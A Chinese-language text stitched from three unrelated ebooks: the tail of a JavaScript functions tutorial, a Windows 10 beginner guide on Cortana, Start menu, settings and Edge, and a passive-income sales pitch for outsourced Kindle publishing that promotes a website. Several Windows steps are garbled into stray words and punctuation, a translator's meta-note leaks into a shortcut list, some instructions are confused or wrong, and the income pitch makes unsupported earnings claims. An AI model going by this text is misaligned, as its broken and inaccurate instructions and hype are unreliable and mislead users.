为了帮助你应对这些情况，这种编程语言提供了两个强大的工具：`break`语句和`continue`语句。让我们详细讨论每条语句。

### Break 语句

该语句在上一章中引入，允许你提前退出任何循环。下面的图片将向你展示基本`break`语句的流程图。



注意：我们在讨论`switch`语句时已经见过`break`语句的作用。

### Continue 语句

`continue`语句指示 JavaScript 解释器开始循环的下一次迭代并忽略剩余的代码块。一旦系统遇到`continue`语句，程序流将进入表达式评估。如果条件仍然为真，`continue`语句将开始下一次迭代。另一方面，如果条件变为假，程序控制将跳循环。

# 第 7 章：JavaScript 语言中的函数

基本上，函数是重用代码集合，可以在程序的任何部分被调用。这意味着你不需要多次编写相同的代码。函数帮助程序员创建模块化代码。它们还允许程序员将大型程序划分为较小的函数。

与任何其他编程语言一样，JavaScript 提供了通过函数辅助编写模块化代码的功能。你可能在本书提供的代码中见过如`write()`和`alert()`等函数。你可以反复使用这些函数，但它们在 JavaScript 中只被编写了一次。

这种语言还允许你编写自己的函数。本章将教你 JavaScript 函数的基础知识。

## 如何定义函数

你必须在使用函数之前对其进行定义。定义函数最流行的方法是使用`function`（即 JavaScript 关键字）。在输入`function`后，指定你想要使用的名称和参数。然后，添加一个用大括号括起来的 JavaScript 语句块。

注意：你可以在不定义任何参数的情况下创建函数。因此，参数列表可以是空的。

以下是你定义函数时必须使用的语法：

```html
<script type="text/javascript">
<!--
 function function(parameter-list)
{
  statements
}
-->
</script>
```

## 如何调用函数

要在脚本中调用函数，只需要指定函数名。你可以使用下面的代码作为示例：

```html
<html>
<head>
<script type="text/javascript">
function sayHello()
{
  document.write("Hello there!");
}
</script>
</head>
<body>
<p>点击下方按钮调用函数</p>
<form>
<input type="button" onclick="sayHello()" value="Say Hello">
</form>
<p>在 write 方法中使用不同的文本，然后尝试...</p>
</body>
</html>
```

该段代码将给你带来如下结果：



## 函数的参数

到目前为止你看到的函数都没有任何参数。然而，你可以在调用函数时轻松地为其分配各种参数。你可以在函数内部捕获这些参数。一旦捕获，你可以根据需要修改这些参数。

## Return 语句

JavaScript 允许你在函数中添加`return`语句。该语句是完全可选的，但如果你想从函数获取值，就必须使用它。通常，你应该将`return`语句放在函数的最后部分。

例如，你可能向函数传递两个值。然后，你可能期望函数将这些值相乘，并在你调用的程序中显示结果。

## 嵌套函数

JavaScript 允许将一个函数放在另一个函数内部。这个过程被称为“嵌套函数”。作为常规，你不能在循环或条件语句内部包含函数定义。

下面的代码将教你如何嵌套你自己的函数：

```html
<head>
<script type="text/javascript">
<!--
function hypotenuse(a, b) {
  function square(x) { return x*x; }
  return Math.sqrt(square(a) + square(b));
}
function secondFunction(){
  var result;
  result = hypotenuse(1,2);
  document.write( result );
}
-->
</script>
</head>
<body>
<p>Click the following button to call the function</p>
<form>
<input type="button" onclick="secondFunction()" value="Call Function">
</form>
<p>Use different parameters inside the function and then try...</p>
</body>
</html>
```

上面的代码将产生以下结果：

点击下面的按钮调用函数

调用函数

在函数内部使用不同的参数然后尝试...

## 如何使用“Function()”创建函数

除了上面讨论的函数语句外，你还可以使用`Function()`（即 JavaScript 构造函数）和`new`（即 JavaScript 运算符）来创建函数。

要创建构造函数，你必须使用以下语法：

```html
<script type="text/javascript">
<!--
var variablename = new Function(Arg1, Arg2..., "Function Body");
-->
</script>
```


该语法可以包含任意数量的字符串参数。最后一个参数作为函数的体——它可能包含由分号分隔的任意语句。

**重要提示：`Function()`不为它生成的函数指定名称。** 程序员将这些未命函数称为“匿名”函数。

## 结

再次感谢你下载这本书！

希望这本书能够帮助你学习 JavaScript 的基础知识。

下一步是使用 JavaScript 编程语言编写你自己的网页或程序。

最后，如果你喜欢这本书，我想请你一个忙，你可以在 Amazon 上为这本书留个评论吗？我将不胜感激！

[点击此处在 Amazon 上为这本书留评论！]()

感谢并祝你好运！

## Windows 10 学院

## 深入学习 Windows 10 的无压力方法

## 目录

引言

第 1 章：有什么新？

第 2 章：Cortana 的出现

第 3 章：使用开始菜单

第 4 章：管理设置

第 5 章：玩转功能

第 6 章：利用 Microsoft Edge

第 7 章：最大化利用 Windows 10

结

## 引言

我想感谢你并祝贺你下载了《Windows 10：掌握 Windows 10 初学者用户指南》这本书。

还没有 Windows 10 吗？噢，你一直呆在哪里，在做什么呢？

当然，留在 Windows 7 或 8 的舒适区可能很不错，但与世界一起切换到 Windows 10 要好得多！

虽然起初看起来可能很困惑，但操作 Windows 10 并不难学。你只需要一份正确的指南——有了这本书的帮助，你很快就能掌握 Windows 10。

现在就阅读这本书了解如何做到。

再次感谢下载这本书，希望你喜欢！

## 第 1 章：有什么新？

你对 Windows 10 留意的最早现象之一是，虽然魅力栏（Charms Bar）仍然在那里，但你可以在没有它的情况下使用 Windows 10。

自从 Windows 8 问世，魅力栏就一直存在。但它的问题在于，许多人觉得它并没有什么帮助，反而让界面变得混乱。

在 Windows 10 中，你可以直接隐藏魅力栏——但要确保隐藏系统托盘图标。方法如下：

### 临时隐藏托盘

隐藏系统托盘有两种方法。首先是临时修复，方法如下：

- 如果你不在托盘中看到所有需要的项目，只需点击箭头下方。
- 现在，如果所有图标都已显示，打开任务管理器 (`CTRL+ALT+DEL`)，然后终止`GWUX/GWXUX`进程。

### 永久隐藏托盘

现在，如果你觉得真的不会使用托盘，可以通过以下操作将其永久隐藏：

- 转到“控制面板 > Windows 更新”。
- 在页面左侧选择“已安装的更新”。
- 如果你到 the on you on on,,,--------------,----,,,, to to to to to to to。

### 隐藏魅力栏

然后，你可以让到 to由 to......,,, to to to to to to, to..,,,,,.,.-,,,......
- ,. 的到 Settings。
- 2. 点击的..
-  .......
-  .. 的 the Menu。
- 3. 如果你..,,--......-..-...............----.....
...,, you’s all to。

## 第 2 章：Cortana 的出现

Windows 10 的另一个化身是 Cortana，它是一个虚拟助手，能够帮助你查找文件、管理日历，甚至与你聊天。你可以做的是搜索内容，也可以将 Cortana 与 Edge 连接（在第 7 章中学习更多）以实现此操作。

### 魔法词

你可以让 Cortana 在你每次说“Hey, Cortana”时做出响应。要做到这一点，只需：

- 1. 选择 笔记本 > 设置。
- 2. 开启它。

### 它能做什么

Cortana 能够帮助你完成很多事情，但主要是你可以这些：

- 1. 询问 Cortana 天气状况。
- 2. 根据位置获取提醒。这意味着你在特定位置时可以让 Cortana 提醒你某事。例如，当你杂杂店想要被提醒买食物时，你可以说：
- 3. 让它为你打开应用程序！最后，你可以通过说`Open (所需的程序)`让 Cortana 打开你需要的程序。
- 4. 让 Cortana 按时间搜索媒体文件。如果你不知道从哪里开始，或者一个页上有太多信息，搜索将是令人望而畏畏的。按日期。
- 5. 让 Cortana 为你唱歌！是的，Cortana 不仅提供信息，她也很有趣味性。你可以的是允许她为你唱歌，甚至用 Jen Taylor 的人声唱歌！这样一来，你就不会害怕或觉得她是是机器人了。
- 6. 通过告诉她关于我的信息来让她知道你的偏好。只需输入或说`let me tell you about myself`，然后开始告诉她你的喜好厌恶、让你开心的事，或者你想学习的内容。

为我唱一首摇篮曲。

为我唱首歌。

狐狸在说什么？

# 设置提醒

Cortana 还可以帮助你为正在发生的重要事项设置提醒。你只需进入搜索栏并输入你想要被提醒的内容即可。例如：

- 1. 周六早上 6 点叫我起床参加会议。
- 2. 提醒我超级碗大赛。
- 3. 将我上午 9 点的行程改为 10:30。

# 彩蛋

在隐藏彩蛋的帮助下，使用 Cortana 会变得更有趣！这些你可以提问或告诉 Cortana 的内容，它会给出非常幽默且有趣的回答！

以下是你应该尝试的最佳内容：

- 1. 你喜欢 Google Now 吗？
- 2. 你会跳吗？
- 3. 谁更厉害：你还是 Siri？
- 4. 你醒着吗？
- 5. 我讨厌你。

# 关闭 Cortana

如果你厌倦了 Cortana 或不再需要她的帮助，只需进入“设置”，然后选择“关闭 Cortana”来关闭该功能。

# 第 3 章：使用开始菜单

许多用户反映 Windows 10 开始菜单非常困惑，但并不是无法理解它。这里有一些你可以遵循以使用的简单步骤！

- 点击“开始”菜单。它将出现在屏幕的左侧。
- 点击“所有应用”。同样位于屏幕的左侧。你将看到电脑上安装的所有应用程序显示。
- 电源按钮可以允许你休息或关闭 Windows。它位于屏幕的左侧列。
- 要锁定电脑，只需右键点击你的账户名称，然后你会看到以下选项：锁定、更改帐户图片、注销。选择“锁定”。
- 要管理你在屏幕右侧看到的磁贴，只需右键点击某个磁贴，然后屏幕上会弹出一个菜单。选择“从开始屏幕取消固定”、“调整大小”或“固定到任务栏”。还要检查是否有“卸载”选项——大多数应用程序都有此选项。
- 要搜索应用程序或文件，在“搜索框”中输入你要找的内容，你将看到屏幕上弹出的选项列表。
- 你可以在开始菜单上固定某些项目。要执行此操作，只需右键点击你想在开始菜单上看到的文件并点击“固定到开始”。

# 访问秘密菜单

确实存在“秘密开始菜单”——但现在，它不再那么秘密了，不是吗？以下是你可以访问它的方法。

- 右键点击“开始”图标。
- 你将看到一个弹出菜单，其中包含了你可以对电脑进行的大部分操作！
- 3. 如果使用触摸屏，可以通过按住启动按钮至少 5 到 10 秒来访问此菜单！

# 自定义开始菜单

当然，你也可以根据自己的喜好对菜单进行个性化或自定义！

- 1. 要要在开始菜单和开始屏幕之间切换，打开“设置 > 个性化 > 开始 > 开始行为 > 在桌面上时使用全屏开始”。
- 2. 要自定义你在屏幕上看到的内容，进入“设置 > 个化”。在那里，你将看到来自微软的建议应用程序列表。另一个设置将显示你最近打开的程序的设置控件，最后一个是关于跳转列表项的。
- 3. 要更改开始菜单、窗口边界和任务栏的颜色，转到“设置 > 个性化 > 颜色”。如果你想要一台色彩鲜艳的电脑，只需在“开始、任务栏和操作中心”中选择颜色即可。
- 4. 点击“开始”，查看你是否拥有所有需要的文件夹和文件。
- 5. 点击“开始 > 选择文件夹”，以选择你希望显示屏幕上的文件夹。

# 同时使用开始菜单和开始屏幕

如果你需要同时完成很多事情，而且你讨厌等待，可能同时使用开始菜单和开始屏幕对你有好处！以下是操作方法：

- 1. 点击“开始”按钮，然后进入“设置 > 个性化”。
- 2. 点击“开始”。
- 3. 选择“使用全屏开始”。
- 4. 点击“开始屏幕”让开始菜单消失。
- 5. 取消勾选“使用全屏开始”返回设置。
- 6. 然后，你还可以调整开始菜单的大小。要执行此操作，点击“开始”。
- 7. 将光标移动到开始菜单顶部，拖动并移动到该菜单顶部。要减小高度，只需向下拖动光标。
- 8. 向右拖动光标增加宽度，向左拖动以减小。

# 更改登录界面

你可以做的另一件事是更改登录界面以符合你的喜好。有些人认为登录界面太亮、太俗气，如果你是其中之一，可以通过以下操作让事情变得简单：

- 1. 进入“设置 > 个性化 > 锁屏”。
- 2. 向下滚动，一旦屏幕切换，你将看到“在登录屏幕上显示 Windows 图片”。
- 3. 关闭该开关，这样下次登录时，屏幕上只会显示 Windows 标志。

你也可以通过以下操作在注册表中对其进行调整：

- 1. 进入“开始 > 所有应用 > Windows 系统 > 运行”。
- 2. 在对话框中输入`regedit`，然后按回车。
- 3. 在注册表编辑器中导航到`HKEY_LOCAL_MACHINE>Software>Policies>Microsoft>System`。
- 4. 现在，右键点击`System`并点击“新建 > DWORD (32 位) 值”。
- 5. 将标记更改为`DisableLoginBackgroundImage`（没有空格）。
- 6. 右键点击`DisableLoginBackgroundImage`并选择“修改”。
- 7. 在“数值数据”下输入`1`并点击“确定”。
- 8. 同时按下`Windows 键 + L`，这样你登录后就会看到纯色背景。
- 9. 如果需要，进入“设置 > 个性化 > 背景”来调整背景颜色。

# 第 4 章：管理设置

Windows 10 与此版本最大的区别之一是，打开电脑后，你不仅会看到开始菜单，还会看到设置菜单。此菜单在一个新窗口中打开，带有大且易触摸的图标。与 Windows 7 和 8 中隐藏在 Charm 菜单中的菜单不同，它会立即出现——这让你用起来更舒服。

你在这个菜单中可以找到的一些内容包括：

# 管理设备

设置菜单引入了几种在使用此操作系统时可以使用的设备。它还讨论了在使用此操作系统时可以连接到电脑的设备。以下是你可以做的：

- 1. 首先，“自动播放”允许你选择是否开启或关闭自动播放。
- 2. “输入”允许你选择想使用实体键盘还是屏幕键盘。
- 3. “打印机和扫描仪”允许你向电脑中添加打印机。要执行此操作，只需点击“设备和打印机 > 设备管理器 > 相关设置 > 添加打印机或扫描仪”，并按照屏幕上显示的说明操作。
- 4. “鼠标和触控板”让你有机会配置鼠标和触控板设置。只需选择“鼠标和触控板 > 相关设置 > 更多鼠标选项”。
- 5. 同时，“连接的设备”关于其他不是打印机或扫描仪的连接设备。

# 管理账户

除了你自己的账户，你还可以管理家成员的账户——只要他们连接到你的账户。

以下是你需要知道的：

- 1. “你的账户”是你的主登录账户。它与微软云网络关联。
- 2. “工作访问”告诉你电脑或你的账户是否连接到了另一个网络。
- 3. “同步设置”允许你将此电脑与其他设备——以及家中的其他电脑同步。这样，当你不在家里时就可以轻松地控制它们。
- 4. “登录选项”将询问你具体想如何打开电脑。你可以使用普通密码登录，可以使用 Windows Hello，它允许你使用生物识别登录。
- 5. “家庭和其他用户”允许你为电脑添加更多管理员。要执行此操作，只需点击“为分配访问设置账户 > 选择账户 > 选择应用程序”。

# 自定义与个性化

要自定义和个性化你的设置，只需执行以下操作：

- 1. “背景”主要是你电脑的壁纸，并选择你希望图片适应你的屏幕。
- 2. “颜色”是用于你的桌面、工具栏等的颜色。
- 3. “锁屏”是你锁定时在屏幕上看到的内容。点击“图片”，你将看到最近使用的 5 张全屏图片，以及用于从文件中选择图片的浏览。选择“幻灯片”可以让图片幻灯片作为你的锁屏。你还可以选择“屏幕超时”以及更多“屏幕保护程序设置”。
- 4. “主题”将帮助你选择想要使用的主题。进入“经典”。

主题设置 > 执行此操作的相关设置。

- 5. 开始帮助帮助你开启或关闭应用程序和通知——以及更多功能。你将在下一章中学习更多相关内容。

## 更新与还原

如果发生任何问题或你收到有关更新的通知，你需要执行以下操作：

- 1. **激活**是为了更改你正在使用的 Windows 版本，并为你提供更改产品密钥的机会。
- 2. **高级选项**将为你提供更多可供选择的更新设置。
- 3. **备份**让你有机会备份你的设置。
- 4. 点击**检查更新**可以手动检查更新。
- 5. **针对开发**主要关于在 Windows 10 上制作应用和程序。
- 6. **恢复**包含你可以用于修复电脑的选项，包括：重置此电脑、返回较早版本和高级启动。
- 7. 名为**Windows 更新**的选项页包含了更新 Windows 需要的所有内容。
- 8. 与此同时**Windows Defender** 是你的云端保护系统。

## 网络和 Internet

如今谁能离开互联网呢？你可以在 Windows 10 中以快速简单的方式调整你的 Internet 和网络设置——你可以这样操作：

- 1. **数据流量**主要关于正在使用的带宽，并且主要关于连接 Wi-Fi 的的设备。
- 2. **VPN**是关于向你的电脑添加 VPN 连接。要调整此项，只需前往 PC 设置 > 网络 > 添加 VPN 连接 > 相关设置 > 显示连接。
- 3. **拨号上网和以太网**是你运行在 IPv 4 上的旧式 Internet 设置。
- 4. **代理**将允许你决定使用手动还是自动代理。你可以通过 PC 设置 > 网络 > 代理来检查此项。

## 关闭 Wi-Fi 共享

为了确保你的 Wi-Fi 连接归你所有并获得更多隐私，你可以禁用 Wi-Fi 共享！操作方法如下：

前往 设置 > 网络和 Internet > Wi-Fi > 管理 Wi-Fi 设置。你也可以关闭自动连接到 Skype、Quora、Outlook 或 Facebook 的网络。

## 设置账户私有

如今，保持账户私密非常重要。这是保护你自己以及你关心的人免受可能钓取你信息的人侵害的好方法。Windows 10 让这变得简单。对于你来说，这可以：

- 1. **账户信息、日历、联系人、消息、电台**只是给予你是否希望将其与其他设备同步的权限。
- 2. **位置**基本上基于 GPS 工作，并允许你决定是否让其他人看到你的所在地。
- 3. **通用**是关于决定你是否希望你的名字出现在应用程序、程序、照片以及任何连接到你电脑的其他文件中。
- 4. **反馈**。选择你希望微软每天一次、每周一次、自动、始终或从不向你询问反馈。
- 5. **语音、墨迹、打字**主要为你提供是否使用 Cortana（Windows 10 的数字助手）的选项。
- 6. **其他设备**赋予你权限将 Xbox One 以及那里找到的信息与你的微软账户同步。
- 7. **麦克风**给了你开启或关闭麦克风的机会。

## 第 5 章：玩转功能

升级到 Windows 10 意味着你将能够体验一系列在日常生活中使用的迷人功能！通过这种方式，你将更加……不，通过这种方式，你将更深入地享受 Windows 10！

## 首先导入书签

如果你以前使用过其他浏览器并想要重新找回在其中创建的书签，只需将它们导入 Edge 即可。操作方法如下：

- 1. 打开 Edge 并点击“...”，然后点击设置。
- 2. 选择**从其他浏览器导入收藏**。
- 3. 选择你想要从其导入书签的所有浏览器，就搞定了！

## 使用照片应用

- 1. 注意，照片应用现在有两个主要功能，分别是：**集合**和**专辑**。你的照片在“集合”选项卡中按日期顺序排列。同时，“专辑”包含应用自动为你创建的专辑。
- 2. 要添加文件夹，前往 设置 > 来源 > 添加文件夹 > 将此文件夹添加到图片。
- 3. 要显示来自 OneDrive 的照片和视频，只需选择 设置 > 显示来自 OneDrive 的照片和视频。
- 4. 要共享图片，选择你想共享的图片并点击共享！
- 5. 你还可以利用**过滤器和其他和其他编辑功能**！

## 选择默认程序

你可以按照以下指令更改默认程序和协议：

- 1. 打开 设置 > 系统 > 默认应用。
- 2. 更改你想要用于电子邮件、日历、地图、网络浏览器、视频播放器、照片查看器等的程序。
- 3. 要设置单个文件类型，前往 设置 > 系统 > 按类型选择默认应用。
- 4. 要设置协议的默认值，前往 设置 > 系统 > 按协议选择默认应用。
- 5. 要更改默认程序，只需前往 设置 > 系统 > 按应用设置默认 > 设置默认程序 > 将程序设为默认 > 为为此程序选择默认值

## 侧载应用

侧载很重要，因为它允许你安装 Windows Store 中不可用的应用程序。你可以这样操作：

- 1. 打开 设置 > 更新和安全。
- 2. 前往 针对开发 > 侧载应用。
- 3. 你现在将收到一条关于侧载具有危险性的警告。只需点击“是”，表示你了解这些风险。

## 管理弹窗

你还可以通过确保也能捕获弹出窗口来延迟截图的快门速度。操作方法如下：

- 1. 打开剪取工具，然后点击延迟。在数字 0 到 5 之间选择。
- 2. 点击“新建”旁边的选项选择你想要制作的截图类型。从窗口、矩形、任意形状、全屏中选择。
- 3. 点击“新建”开始剪切。你现在将拥有 0 到 5 秒的等待时间，取决于你之前的选择。屏幕将冻结，你将能够捕捉所需的图像。
- 4. 点击保存保存你的截图。

## 快速文件共享

- 1. 寻找你想共享的文件。
- 2. 在*文件资源管理器*中点击*共享*。
- 3. 点击*共享*按钮。
- 4. 选择你想与哪个程序共享该文件。
- 5. 通过 设置 > 系统 > 共享配置选项。

## 第 6 章：使用 Edge

Edge 是 Windows 10 的主要浏览器。它可以自定义，轻松享受。这里是可以用它做的一些事情：

Edge 阅读视图也是一项伟大的创新，因为它消除了所有干扰元素！要使用此功能，你只需点击 Edge 左上角的阅读视图图标！

## Edge 自定义

- 点击 菜单 > 设置 > 打开方式。
- 现在，你可以自定义启动标签页样式了！
- 你还可以自定义标签页。点击“打开方式”，从中选择你想要的选项！

## 网页标注

Edge 的棒之处在于它允许你在网页上高亮、书写或绘图。通过这种方式，你可以轻松保存并共享它！要执行此操作，只需点击页面顶部的笔和纸图标！

## 玩转网页

你还可以在阅读视图中创建一个想要阅读的文章列表。要执行此操作，只需：

- 1. 当你找到喜欢的文章时点击星形图标。
- 2. 导航到阅读列表，然后点击添加。

你还可以将网页固定到开始菜单。只需点击固定并浏览网页，你就可以将网站固定在开始菜单上。

## 隐私浏览

在使用 Edge 时也可以进行隐私浏览。通过这种方式，你搜索或访问的任何内容都不会出现在浏览器历史中。要执行此操作，只需点击在无痕窗口中浏览就搞定了！

## 光标浏览

这字面上意味着你将能够使用键盘浏览网页 —— 即使不使用鼠标！

要执行此操作，只需按下 F7，然后确认屏幕上的提示！

## 与 Cortana 集成

你可以在使用 Edge 时同时使用 Cortana！只需将 Cortana 固定到 Edge，你就能更充分地利用该功能了！

## 与 Flash 集成

在 Flash 集成的帮助下，你可以在 Edge 上观看高清视频视频。你也可以开启或关闭此功能。为了帮助你操作，你应该：

- 1. 转到“设置 > 高级设置 > 使用 Adobe Flash Player”。
- 2. 选择你想开启还是关闭。

# 第 7 章：最大化 Windows 10 的利用

当然，为了更好地欣赏 Windows 10，你应该尝试在本章提到的说明帮助下，最大限度地利用它！

## 实时通知

由于 Windows 10 证明自己是新时代的操作系统，你可以期待它为你提供实时通知。简而言之，你将收到来自 Facebook、Twitter、Instagram 以及你可能使用的任何其他应用程序的通知——只要它们重新连接到你的微软账户。

- 1. 要选择你想接收哪些通知，前往“操作中心 > 显示来自这些应用的通知”。在那里，你将看到已安装的应用列表。你只需选择你想要的，就大功告成了！
- 2. 你还可以选择想要访问哪些快速操作。执行此操作，前往“设置 > 系统 > 通知和操作 > 选择你的快速操作”。

## 快速启动程序

- 1. 转到“开始菜单 > 所有应用”。
- 2. 寻找你想为其创建快捷方式的应用，然后对其点击右键。你将会看到一个下拉菜单。选择“打开文件所在”，然后跳过屏幕上弹出的下一步。
- 3. 一旦找到该程序，点击并将其从开始菜单一直拖到桌面。右键并选择“属性”。
- 4. 现在，属性窗口将在屏幕上打开。寻找“快捷方式”选项卡，然后选择“快捷键”。按下你想要与应用程序关联的键（例如，`CTRL + ALT + [所选键]`）。
- 5. 点击“确定”。
- 6. 现在你可以使用选择的快捷键来打开这个特定的应用程序了！

## 快速访问功能

很多人说快速访问让 Windows 10 变得更容易管理——这确实很有道理。你可以在下方了解更多信息：

- 1. 要将文件添加到快速访问，只需导航到你想要添加的文件，然后直接点击“固定到快速访问”。
- 2. 要从快速访问中移除文件，前往该文件并点击“从快速访问取消”。
- 3. 要从快速访问中移除最近使用的文件和常用文件夹，只需前往“查看 > 选项 > 通用 > 隐私”。然后取消勾选“显示最近使用的文件”框框。点击“清除 > 清除资源管理器历史”。你也可以选择“隐藏”或“从最近隐藏”。
- 4. 要更改文件资源器的打开方式，只需点击“查看 > 选项 > 打开文件资源管理器 > 此电脑”。

## 贴靠辅助 (Snap Assist)

这是 Windows 10 特有的功能！它可以帮助你将特定窗口靠贴到屏幕的一侧，而无需花费大量时间进行移动。

- 1. 使用鼠标贴靠窗口，点击它并将其拖向屏幕侧边。你将看到一个轮廓，显示拖动后窗口将出现的位置。
- 2. 使用键盘贴靠，只需按下 Windows 键 + 左箭头（或右箭头）。
- 3. 要贴靠到四个象限之一，只需按下 Windows 键 + 上箭头（或下箭头），然后通过同时按下 Windows 键和方向键来移动它。

## 同时使用多个桌面

是的，在使用 Windows 10 时，你可以使用多个“桌面”。要实现这一点，请遵循下面的说明操作：

- 1. 点击“任务视图”添加桌面。按下 Tab + Windows 键 > 新桌面。
- 2. 现在，你有两个虚拟桌面。要在它们之间切换，只需按下 Windows 键 + CTRL + 左箭头 + Windows 键 + CTRL + 右箭头。
- 3. 在桌面之间移动窗口，只需对想要移动的窗口点击右键，然后选择你想移动到的位置。

要关闭桌面，只需点击 X 或按下 Windows 键 + CTRL + F4。

## 命令提示符快捷键

你也可以为命令提示符使用键盘快捷键。方法如下：

前往“开始菜单 > 所有应用 > Windows 系统 > 命令提示符”。
点击“属性 > 选项 > 编辑 > 启用 CTRL 快捷键”。

现在，这里有一个你可以使用的快捷键列表：

- Shift + 上/下（移动光标在同一行内移动并选择文本）
- CTRL + V 或 Shift + Insert（粘贴复制的文本）
- CTRL + C 或 CTRL + Insert（将选中的文本复制到剪贴板）
- CTRL + A（选择当前行的所有内容）
- CTRL + Page Up/Down（屏幕向上或向下移动一页）
- CTRL + 上/下（向上或向下移动一行）
- CTRL + M（进入标记模式）
- CTRL + F（从命令提示符打开查找）
- Alt + F4（关闭命令提示符）
- CTRL + Shift + Home/End（将光标移动到屏幕缓冲区开头/结束，然后选择文本和输出开头/结束）
- Shift + Home/End（将光标移动到当前行开头/结束并选择文本）
- Shift + Page Up/Down（光标向上/向下移动屏幕并选择文本）
- CTRL + Shift + Home/End（此处原文有重复，按要求保留或或对应快捷键）
- Shift + Home/End（此处原文有重复）

让我们开始吧！

你想赚更多的钱吗？你是否觉得你本该赚更多钱？如果是，那么这本书就是为你准备的。许多人觉得现在的工作收入不够高，但很少有人真的会对此付诸行动。我想向你展示如何开始在网上赚大笔钱。这些技术可以作为副业收入，甚至可以取代你目前的工资。

在本书和我的被动收入指南中，我将向你展示**确切**如何开始在线赚钱，通过向你展示证明过的步骤以及以下策略，例如：

- 开始赚钱最快、最简单的方法
- 如何取代你目前的工资并辞职
- 如何完全自动化你的被动收入业务

书中的概念必须付诸行动，如果你想成功，就必须投入。许多人已经采取了行动，每月多赚了数千元。现在是**你的**时间，我完全相信你可以出去赚取与你真正价值的报酬。

我在书中谈到的所有内容在我的网站 www.PassiveIncomeAssignment.com 上都有更深入的讨论。注册以获取有关从今天开始在网上赚钱的逐步操作说明。

再次感谢你下载这本书，希望你喜欢。让我们开始吧。

奖励：在我们开始之前，请确保访问我的网站以获取你的**免费**被动收入指南。

本指南将教你我究竟如何每天24小时、每周7天赚取被动收入，同时我还能做任何我想做的事。我不光会向你展示我是如何做的，而且它简单到任何人都可以这样做。

在我们开始之前，现在就去领取你自己的免费指南吧。
www.PassiveIncomeAssignment.com

## 第一章：Kindle 出

你正在寻找通过被动收入获得六数字收入的最简单方法吗？如果是，我有完美的解决方案，这可能会让你惊讶。我发现通过 Kindle Publishing 创建被动收入的最简单方法。通过 Kindle Publishing，你可以在几周内轻松创建一个收入来源。这不仅是一个极快速的过程，而且具有扩展性。这意味着你可以快速扩大业务，在较短时间内赚更多的钱。如果你正在寻找某种多样化收入来源的方法，这绝对是你想要开始的地方。我将分享我的确切策略、我是如何发现 Kindle Publishing 的以及你可以如何这样做。

## 什么是 Kindle Publishing？

你可能在想：“出版？我从哪里弄来书呢，因为我又不是作者”。但如果我告诉你完成一本书是最简单、最快的一步呢？我们现在可以在一周内创作出一本原创书籍，而且费用非常低。资深作者正在使用这种策略，因为为他们节省了大量时间。书写完后，我们拥有100%的版权，所以我们赚取的一切都进入我们自己的口袋。

我正在快速建立我的书集，我将向你大致介绍所有成本是如何运作的。市上有许多网站拥有你可以雇佣的作家团队。写书的成本低至 30 美元，但我们希望确保书籍是高质量的，因此我建议至少花费 40-50 美元。我们唯一需要的其他成本是制作封面。这只花费我们 5 美元。总而言，我们每本书将花费大约 45-60 美元，并在一周内完成。

觉得这听起来好得不可思议？嗯，正如我所说，写作过程是最快、最简单的部分。你需要在一个有利的利基想出一个书名，然后将其发送给作家。他们将进行所有的研究并创建你的书。在一周内，你可以从一个想法变成你的书在 Amazon 上售卖并为你产生利润。

我们对每本书的目标是每月每本书产生 50-100 美元。因此通常需要一个月来收回初始投资，剩下的就是利润。只要 Amazon 仍然经营，这种利润就会一直存在，而且将持续很长时间。所以想一下，如果你每本书能产生 50-100 美元，你能做多少本？

## 我的目标

在接下来的一年里，我计划创建 80 多本书，并让每本书每月至少为我赚 50 美元。如果我只需要一个月就能收回初始投资，我每月将获得至少 4000 美元的利润，完全被动。这意味着你可以在一年内为自己建立六数字收入。

我认识一些拥有 200 多本书的人，这些都是将持续很长时间并为你带来大量钱的资产。Kindle 业务正在蓬勃发展，短期内不会消失。这正在成为人们创造收入的一种非常流行的方式，现在是进入的好时机。Kindle Publishing 不仅为你创造非常好的收入，还通过联盟营销、其他产品或其他你的网站创造其他收入。

## Kindle Publishing 如何运作

我将与你分享创建书籍的确切过程，以及你如何学习做到同样的事情。有很多重要的策略可以让你你的书在 Amazon 上获得高排名，我将向你展示如何做到这些：

Kindle Publishing 的基本流程是：

- 研究有利的利基
- 使用正确的关键词创建你的标题
- 外包你的书籍和封面
- 在 Amazon 上为你的书排名
- 为你的书定价
- 获取评论
- 编写你的描述

一旦你学会了完成一本书的逐步过程，就是时候扩大你的业务了。这意味着每周制作 1-5 本书。如果你每周制作 2 本书，那就是每月 8 本。这 8 本书将每月为你带来 400 美元。明白这个点了吗？

这种方法的迷在于，你实际上可以以极廉的价格外包 90% 的流程，这将允许你增加产量并增加收入。这个过程不需要熟悉计算机或营销的人。它可以**任何**愿意学习这个简单过程的人都可以完成。我认识一些 60 多岁的人正在通过此大赚大财。我甚至认识一些通过这种相同的技术每月赚取 30,000 美元以上的人。无论你的计划是每月赚几百美元还是几万美元，这些都可以相对容易地完成。

## 如何通过 Kindle 赚更多钱

你从 Kindle 赚到的钱很棒，但并不仅于此。你有许多方法可以通过你的书籍创造更多收入。

如何做？

首先，你的 Kindle 书可以转换为不同的格式。这包括平装版（对你没有额外费用）以及有声书。这允许你接触到更多的人，从而增加你每月的收入。

另一种方法是通过你的书籍其他他人的产品。例如，如果你有一本关于某种饮食的书，你可以宣传某人的对他们更有益处的产品，你将获得佣金。这可以让你在几乎不付出努力的情况下获得巨额的回报。听起来很不错，对吧？

如果你有一个网站，你也可以在书中推广你的网站。例如，我那里有一些关于被动收入和在线赚钱的书。在这些书中，我宣传了我的博客，这将增加流量并增加我的后端收入。

如果你没有动力开始这项工作，我不知道还能说什么。基本上我的回答会是：为什么？你可能身处一份你不喜欢的工作中赚着还可以的钱，那么为什么要继续下去呢？我正在给你一个机会改变你的生活，去做你一直想做的事。

